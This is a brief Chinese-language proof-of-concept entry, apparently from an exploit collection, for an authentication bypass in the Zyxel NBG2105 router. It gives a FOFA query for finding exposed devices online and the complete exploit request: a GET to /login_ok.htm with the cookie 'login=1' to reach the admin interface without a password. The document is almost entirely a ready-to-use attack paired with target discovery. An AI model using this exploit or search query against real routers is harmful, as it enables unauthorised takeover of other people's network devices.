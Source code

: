 # Zyxel NBG2105 身份验证绕过

## 资产搜索：

fofa app="ZyXEL-NBG2105"  
![](img/login.png)

## POC：
访问`url/login_ok.htm` cookie设置为`login=1`
```shell
GET /login_ok.htm HTTP/1.1
cookie:login=1
```
![](img/passlogin.png)